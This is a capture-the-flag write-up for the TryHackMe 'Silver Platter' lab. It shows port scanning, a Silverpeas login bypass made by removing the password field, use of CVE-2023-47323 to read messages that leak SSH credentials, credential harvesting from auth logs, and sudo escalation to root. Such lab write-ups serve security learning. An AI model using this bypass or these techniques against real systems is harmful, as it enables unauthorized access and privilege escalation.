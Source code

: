 # THM - Silver Platter

### Ip: 10.129.21.176
### Name: Silver Platter
### Rating: Easy

------------------------------------------------

![thm_silver_platter_pic.png](../assets/silver_platter_assets/thm_silver_platter_pic.png)

### Intro:

```
Welcome to Silver Platter

Think you've got what it takes to outsmart the Hack Smarter Security team? They claim to be unbeatable, and now it's your chance to prove them wrong. Dive into their web server, find the hidden flags, and show the world your elite hacking skills. Good luck, and may the best hacker win!

But beware, this won't be a walk in the digital park. Hack Smarter Security has fortified the server against common attacks and their password policy requires passwords that have not been breached (they check it against the rockyou.txt wordlist - that's how 'cool' they are). The hacking gauntlet has been thrown, and it's time to elevate your game. Remember, only the most ingenious will rise to the top. 

May your code be swift, your exploits flawless, and victory yours!
```

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Silver_Platter]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.234.44
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-13 10:53 CST
Nmap scan report for 10.10.234.44
Host is up (0.15s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b1c878afe3416c9f782372b108f8bf1 (ECDSA)
|_  256 266d17ed839e4f2df6cd5317c8803d09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Mon, 13 Jan 2025 16:53:48 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Mon, 13 Jan 2025 16:53:47 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|_http-title: Error
```

Looking at the page on port 80 we find a simple site for a security company:

![thm_silver_platter_site.png](../assets/silver_platter_assets/thm_silver_platter_site.png)

Clicking on the Contact button we find:

![thm_silver_platter_contact.png](../assets/silver_platter_assets/thm_silver_platter_contact.png)

We can access the SilverPeas login at http://10.10.234.44:8080/silverpeas

![thm_silver_platter_login.png](../assets/silver_platter_assets/thm_silver_platter_login.png)

### Exploitation

Looking for Silverpeas exploits I find some info about a login bypass at: https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d

We can replicate this by capturing a login attempt in burp and removing the password field as demonstrated in the writeup:

```
Login=SilverAdmin&DomainId=0
```

![thm_silver_platter_burp.png](../assets/silver_platter_assets/thm_silver_platter_burp.png)

Forwarding the request we find ourselves authenticated:

![thm_silver_platter_in.png](../assets/silver_platter_assets/thm_silver_platter_in.ong)

Looking for more silverpeas exploits I find:

https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323

Which outlines a broken access control vulnerability that allows us to view all messages.

Browsing the messages using the ID parameter we find:

![thm_silver_platter_creds.png](../assets/silver_platter_assets/thm_silver_platter_creds.png)

Nice, looks like we've got some SSH credentials here: `tom:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol`

We can use these to SSH onto the box and grab the user.txt flag:

![thm_silver_platter_user.png](../assets/silver_platter_assets/thm_silver_platter_user.png)

### Privilege Escalation

Running the `id` command we see that user tim is in the `adm` group, which means we will likely have read access to several files in `/var/log`.

```
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

In `/var/log` we find a few interesting log files and discover a credential in auth.log.2 and can use this to `su tyler`:

![thm_silver_platter_log.png](../assets/silver_platter_assets/thm_silver_platter_log.png)

```
tim@silver-platter:/var/log$ su tyler
Password: 
tyler@silver-platter:/var/log$
```

Now that we are user tyler we can run `sudo -l` and find:

```
tyler@silver-platter:/var/log$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

We can now run:

```
tyler@silver-platter:/var/log$ sudo su -
root@silver-platter:~# whoami
root
```

And grab the final flag:

![thm_silver_platter_root.png](../assets/silver_platter_assets/thm_silver_platter_root.png)

Thanks for following along!

-Ryan

----------------------------------------------
